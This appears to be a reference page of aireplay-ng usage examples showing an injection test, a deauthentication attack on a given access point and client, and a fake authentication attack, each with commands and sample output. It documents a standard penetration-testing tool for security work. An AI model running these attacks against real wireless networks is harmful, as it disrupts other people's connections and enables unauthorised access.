 ## aireplay-ng Usage Examples

### Injection Test

Run the injection test (`-9`) via the monitor mode interface `wlan0mon`.

```scss
root@kali:~# aireplay-ng -9 wlan0mon
22:55:44  Trying broadcast probe requests...
22:55:44  Injection is working!
22:55:46  Found 4 APs

22:55:46  Trying directed probe requests...
22:55:46  24:FB:95:FD:3D:7F - channel: 6 - 'America'
22:55:52   30/30: 100%

22:55:52  34:6D:A0:CD:45:10 - channel: 6 - 'ATT2b8i4UD'
22:55:58   27/30:  90%

22:55:58  50:64:3D:2A:F7:A0 - channel: 6 - 'FBI surveillance van'
22:56:04   12/30:  40%

22:56:04  16:6E:EF:29:67:46 - channel: 6 - 'dd-wrt_vap'
22:56:10   1/30:   3%
```

### Deauthentication Attack

Run the deauthentication attack (`-0`), sending `5` packets to the wireless access point (`-a 8C:7F:3B:7E:81:B6`) to deauthenticate a wireless client (`-c 00:08:22:B9:41:A1`) via the monitor mode interface `wlan0mon`.

```less
root@kali:~# aireplay-ng -0 5 -a 8C:7F:3B:7E:81:B6 -c 00:08:22:B9:41:A1 wlan0mon
12:41:56  Waiting for beacon frame (BSSID: 8C:7F:3B:7E:81:B6) on channel 6
12:41:57  Sending 64 directed DeAuth. STMAC: [00:08:22:B9:41:A1] [ 0| 0 ACKs]
12:41:58  Sending 64 directed DeAuth. STMAC: [00:08:22:B9:41:A1] [ 0| 0 ACKs]
12:41:58  Sending 64 directed DeAuth. STMAC: [00:08:22:B9:41:A1] [ 0| 0 ACKs]
12:41:59  Sending 64 directed DeAuth. STMAC: [00:08:22:B9:41:A1] [ 0| 0 ACKs]
12:42:00  Sending 64 directed DeAuth. STMAC: [00:08:22:B9:41:A1] [ 0| 0 ACKs]
```

### Fake Authentication

Run the fake authentication attack and re-authenticate every 6000 seconds (`-1 6000`) against the access point (`-a F0:F2:49:82:DF:3B`) with the given ESSID (`-e FBI-Van-24`), specifying our mac address (`-h 3c:46:d8:4e:ef:aa`), using monitor mode interface `wlan0mon`.

```scss
root@kali:~# aireplay-ng -1 6000 -e FBI-Van-24 -a F0:F2:49:82:DF:3B -h 3c:46:d8:4e:ef:aa wlan0mon
12:49:59  Waiting for beacon frame (BSSID: F0:F2:49:82:DF:3B) on channel 6

12:50:06  Sending Authentication Request (Open System)
```

